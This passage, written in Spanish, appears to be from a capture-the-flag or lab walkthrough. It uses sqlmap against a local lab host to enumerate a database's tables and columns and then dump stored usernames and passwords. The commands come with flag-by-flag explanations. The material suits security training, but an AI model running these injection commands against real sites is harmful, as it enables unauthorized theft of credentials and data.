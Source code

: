 ```
	[*] performance_schema
	[*] register
	[*] sys
```
**NOTA: Hay que tener en cuenta que TODAS los "schema" tienen las 3 primeras BBDD y la normalmente tambien la ultima "sys", por lo que tenemos que atacar "register"**
Ahora volvemos a lanzar el comando SQLMAP pero con algun pequeño cambio:
```
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch

	-D + NOMBREBASEDATOS = decimos a SQLMAP en que BBDD tiene que buscar
	--tables = le decimos a SQLMAP, qué tiene que buscar dentro de la BBDD que le hemos pasado con el parametro "-D"
```
Y vemos lo siguiente:
```
Database: register

	[1 table]
	+-------+
	| users |
	+-------+
```
Bien, momento ahora de buscar las columnas que hay en esa tabla. Para ello, una vez mas, usaremos SQLMAP:
```
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch

	-T + NOMBRETABLA = le decimos a SQLMAP dentro de que tabla tiene que buscar
	--colums = le decimos que nos busque las columnas dentro de la tabla que hemos pasado con el parametro "-T"
```
Este comando nos devuelve lo siguiente (en este caso):
```
Database: register

	Table: users
	[2 columns]
	+----------+-------------+
	| Column   | Type        |
	+----------+-------------+
	| passwd   | varchar(30) |
	| username | varchar(30) |
	+----------+-------------+
```
Finalmente, habria que ver el contenido existente en esas columnas, es decir, sus registros.
Para ello, escribimos el comando:
```
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C username,passwd --dump --batch

	-C + NOMBRECOLUMNA/S = indicamos a SQLMAP que columna/s queremos. En caso de ser mas de 1 columna, las separaremos por "," SIN espacio
	--dump = le decimos a SQLMAP que nos saque la informacion de dichas columnas y nos lo vuelque a un archivo ".csv" (lo hace automaticamente)
```
Esto nos da un resultado final y nos muestra los registros de ambas columnas y aparte, nos informa donde y como se llama el archivo creado con el "--dump".
```
Database: register

	Table: users
	[1 entry]
	+----------+------------------+
	| username | passwd           |
```